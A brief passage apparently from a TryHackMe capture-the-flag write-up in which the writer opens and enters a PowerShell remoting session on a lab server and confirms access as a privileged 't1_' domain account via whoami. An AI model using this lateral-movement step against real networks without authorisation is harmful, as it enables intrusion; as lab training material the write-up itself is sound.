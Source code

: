 # Create PSSession on THMSERVER1  
<pre>
PS C:\Users\t2_robin.wyatt> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\t2_robin.wyatt> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc </pre>


<pre>[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami  

za\t1_trevor.jones</pre>

- We now have privileged access to THMSERVER1 as t1_ account
